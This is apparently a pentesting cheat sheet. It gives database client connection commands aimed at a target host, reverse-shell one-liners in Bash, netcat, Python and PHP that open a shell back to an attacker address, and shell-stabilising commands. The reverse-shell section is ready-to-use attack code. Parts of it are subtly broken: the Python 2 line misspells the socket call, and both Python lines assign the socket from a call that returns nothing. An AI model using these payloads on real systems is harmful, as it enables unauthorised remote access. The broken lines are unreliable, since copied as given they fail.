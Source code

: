 
### Databases

#### MySQL
- Connect to MySQL server `mysql -h TARGET_IP -P PORT -u USERNAME -p`
    - To list databases `SHOW DATABASES;`
    - To use a specific database `USE DATABASE;`
    - To list tables in the current database `SHOW TABLES;`
    - To describe a table `DESCRIBE TABLE;`
    - To execute a query `SELECT * FROM TABLE;`
    - To exit MySQL `EXIT;` or `QUIT;`

#### PostgreSQL
- Connect to PostgreSQL server `psql -h TARGET_IP -p PORT -U USERNAME -d DATABASE`
    - To list databases `\l`
    - To connect to a specific database `\c DATABASE`
    - To list tables in the current database `\dt`
    - To describe a table `\d TABLE`
    - To execute a query `SELECT * FROM TABLE;`
    - To exit PostgreSQL `\q`

#### MongoDB
- Connect to MongoDB server `mongo --host TARGET_IP --port PORT -u USERNAME -p PASSWORD --authenticationDatabase DATABASE`
    - To list databases `show dbs`
    - To use a specific database `use DATABASE`
    - To list collections in the current database `show collections`
    - To execute a query `db.COLLECTION.find()`
    - To exit MongoDB `exit`

#### SQLite
- Connect to SQLite database `sqlite3 /path/to/database.db`
    - To list tables `.tables`
    - To describe a table `.schema TABLE`
    - To execute a query `SELECT * FROM TABLE;`
    - To exit SQLite `.exit` or `.quit`



### Reverse Shells
- Bash `bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1`
- Netcat traditional `nc -e /bin/sh ATTACKER_IP ATTACKER_PORT`
- Netcat openbsd `nc ATTACKER_IP ATTACKER_PORT -e /bin/sh`
- Python 2 `python -c 'import socket,subprocess,os;s=ocket.socket(socket.AF_INET,socket.SOCK_STREAM).connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
- Python 3 `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM).connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
- PHP `php -r '$sock=fsockopen("ATTACKER_IP",ATTACKER_PORT);exec("/bin/sh -i <&3 >&3 2>&3");'`


### TTY Shells
- Python 2 `python -c 'import pty;pty.spawn("/bin/bash")'`
- Python 3 `python3 -c 'import pty;pty.spawn("/bin/bash")'`
- Perl `perl -e 'exec "/bin/sh";'`
- Bash
    ```bash
    script /dev/null -c bash
    stty raw -echo; fg
    reset xterm
    export SHELL=bash
    export TERM=xterm-256color
    ```
